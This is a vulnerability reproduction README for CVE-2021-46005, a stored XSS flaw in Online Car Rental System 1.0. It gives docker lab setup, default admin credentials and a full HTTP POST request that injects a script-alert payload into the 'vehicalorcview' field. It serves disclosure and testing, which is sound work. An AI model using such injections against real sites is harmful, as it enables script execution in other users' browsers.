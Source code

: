 # CVE-2021-46005

Online Car Rental System 1.0 - Stored XSS

## Run Vuln

```
docker-compose build

docker-compose up -d
```

## Stop Vuln

```
docker-compose down -v
```

## Online Car Rental System

The Online Car Rental System with Source Code is a PHP project that allows you to transact online booking for car rentals. The system is using PHP and MySQL.The system is very straight forward. After you log in as admin, you can create a brand and add vehicles used for booking online. The system also has testimonials and a contact us page so the customer can give their feedback and contact the site owner. The customer can register on the website and select which vehicle they’d like to rent. The project's website has a pleasant user interface and it's user-friendly.

## Reproduction

1. Visit http://test.com/admin/ and Login as admin (admin / admin)

![](images/1.png)

2. Visit http://localhost/car-rental/admin/post-avehical.php

![](images/2.png)

3. Fill All the details on the page. After submitting, capture the request and change the "vehicalorcview" parameter with our Payload "<script>alert("CAR")</script>" and submit

![](images/3.png)

My request here, please replace your own cookie.

```
POST /OnlineCarRental/admin/post-avehical.php HTTP/1.1
Host: test.com:9202
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------13786099262839578593645594965
Content-Length: 2085
Origin: http://test.com:9202
Connection: close
Referer: http://test.com:9202/OnlineCarRental/admin/post-avehical.php
Upgrade-Insecure-Requests: 1

-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="vehicletitle"

TestName
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="brandname"

2
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="vehicalorcview"

<script>alert("CAR")</script>
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="priceperday"

200
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="fueltype"

Diesel
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="modelyear"

2008
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="seatingcapacity"

22
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="img1"; filename="Untitled.png"
Content-Type: image/png

�PNG

-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="img5"; filename=""
Content-Type: application/octet-stream


-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="powerdoorlocks"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="antilockbrakingsys"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="driverairbag"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="passengerairbag"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="centrallocking"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="crashcensor"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="submit"


-----------------------------13786099262839578593645594965--
```

4. Open the http://localhost/car-rental/ and our Payload excuted.


